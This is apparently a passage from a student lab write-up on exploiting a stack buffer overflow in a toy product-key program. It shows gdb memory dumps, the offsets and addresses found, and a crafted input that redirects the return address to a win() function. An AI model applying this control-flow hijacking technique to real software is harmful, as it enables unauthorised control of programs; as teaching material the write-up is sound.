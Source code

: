 ```bash
fs             0x0	0
gs             0x0	0
```

```bash
(gdb) x/40gx $rsp
0x7fffffffeb30:	0x00007fffffffecc0	0x00007fffffffeb70
0x7fffffffeb40:	0x4847464544434241	0x504f4e4d4c4b4a49
0x7fffffffeb50:	0x5857565554535251	0x00007fffff005a59
0x7fffffffeb60:	0x00007fffffffebe0	0x000055555555488e
0x7fffffffeb70:	0x4847464544434241	0x504f4e4d4c4b4a49
0x7fffffffeb80:	0x5857565554535251	0x00007fffff005a59
0x7fffffffeb90:	0x00007ffff7ffe168	0x0000000000000000
0x7fffffffeba0:	0x0000000000000001	0x00005555555548fd
0x7fffffffebb0:	0x00007fffffffebde	0x0000000000000000
0x7fffffffebc0:	0x00005555555548b0	0x00005555555546e0
0x7fffffffebd0:	0x00007fffffffecc0	0x0000000000000000
0x7fffffffebe0:	0x00005555555548b0	0x00007ffff7a2d840
0x7fffffffebf0:	0x0000000000000000	0x00007fffffffecc8
0x7fffffffec00:	0x00000001f7ffcca0	0x0000555555554858
0x7fffffffec10:	0x0000000000000000	0x0f60b8fd027b15fd
0x7fffffffec20:	0x00005555555546e0	0x00007fffffffecc0
0x7fffffffec30:	0x0000000000000000	0x0000000000000000
0x7fffffffec40:	0x5a35eda844fb15fd	0x5a35fd123ceb15fd
0x7fffffffec50:	0x0000000000000000	0x0000000000000000
0x7fffffffec60:	0x0000000000000000	0x00007fffffffecd8
```


```bash
(gdb) continue
Enter product key: 
Oh no! You may be the victim of software piracy!
[Inferior 1 (process 25355) exited with code 062]
```

`rbp` is at `0x7fffffffeb60` 

`rip RET` value is currently `0x000055555555488e`

`win()` function is at `0x0000555555554836`

Padding with 40 characters, send the input `ABCDEFGHIJKLMNOPQRSTUVWXYZABCDEFGHIJKLMN%36%48%55%55%55%55`

### Buffer overflow

```bash
(gdb) run < input-string
Breakpoint 1, activate (str=0x7fffffffeb70 "ABCDEFGHIJKLMNOPQRSTUVWXYZABCDEFGHIJKLMN6HUUUU") at ED202.7.c:8
8	    return 1;
```

```bash
(gdb) x/40gx $rsp
0x7fffffffeb30:	0x00007fffffffecc0	0x00007fffffffeb70
0x7fffffffeb40:	0x4847464544434241	0x504f4e4d4c4b4a49
0x7fffffffeb50:	0x5857565554535251	0x4645444342415a59
0x7fffffffeb60:	0x4e4d4c4b4a494847	0x0000555555554836
0x7fffffffeb70:	0x4847464544434241	0x504f4e4d4c4b4a49
0x7fffffffeb80:	0x5857565554535251	0x4645444342415a59
0x7fffffffeb90:	0x4e4d4c4b4a494847	0x0000555555554836
0x7fffffffeba0:	0x0000000000000001	0x00005555555548fd
0x7fffffffebb0:	0x00007fffffffebde	0x0000000000000000
0x7fffffffebc0:	0x00005555555548b0	0x00005555555546e0
0x7fffffffebd0:	0x00007fffffffecc0	0x0000000000000000
0x7fffffffebe0:	0x00005555555548b0	0x00007ffff7a2d840
```